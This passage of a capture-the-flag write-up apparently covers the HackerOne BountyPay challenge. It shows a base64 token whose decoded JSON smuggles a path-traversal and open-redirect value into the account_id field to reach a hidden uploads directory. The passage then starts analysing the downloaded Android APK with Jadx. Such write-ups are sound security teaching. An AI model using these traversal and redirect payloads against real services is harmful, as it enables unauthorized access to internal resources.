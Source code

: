 {F854067}

This basically automates the search while also applying the right encoding.

This way I quickly find that a correct *token* value is this:
```
eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSy8uLi8uLi8uLi9yZWRpcmVjdD91cmw9aHR0cHM6Ly9zb2Z0d2FyZS5ib3VudHlwYXkuaDFjdGYuY29tL3VwbG9hZHMvIy8iLCJoYXNoIjoiZGUyMzViZmZkMjNkZjY5OTVhZDRlMDkzMGJhYWMxYTIifQ==
```
which represents
```
{"account_id":"F8gHiqSdpK/../../../redirect?url=https://software.bountypay.h1ctf.com/uploads/#/","hash":"de235bffd23df6995ad4e0930baac1a2"}
```

At the *uploads* path there was a Directory Listing where it was clear that an APK could be downloaded.

```
{
    "url": "https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/..\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/uploads\/#\/\/statements?month=03&year=2020",
    "data": "<html>\n<head><title>Index of \/uploads\/<\/title><\/head>\n<body bgcolor=\"white\">\n<h1>Index of \/uploads\/<\/h1><hr><pre><a href=\"..\/\">..\/<\/a>\n<a href=\"\/uploads\/BountyPay.apk\">BountyPay.apk<\/a>                                        20-Apr-2020 11:26              4043701\n<\/pre><hr><\/body>\n<\/html>\n"
}
```

Bingo!
So let's download that! 

## Solving all the Android flags
So, I downloaded the APK from the following URL:
- https://software.bountypay.h1ctf.com/uploads/BountyPay.apk

Note that for solving all the expected flags, I used an old Nexus that I purchased years ago, but you could have also used an emulator like Genymotion.

Also, for obtain the source code of an Android application, starting from the APK, I usually use **Jadx** (https://github.com/skylot/jadx) as it is really good for the purpose.

My approach to these series of challenges was the following:
1. Load the activity on my Android device
2. Check the related code on Jadx

So...let's start!


### MainActivity

This is actually loaded at first start of the application and it is used just to create a username and a Twitter handler. Nothing to see here.

### PartOneActivity
This is just a blank activity (like all the following ones).
And this is the related code retrieved.
{F854087}
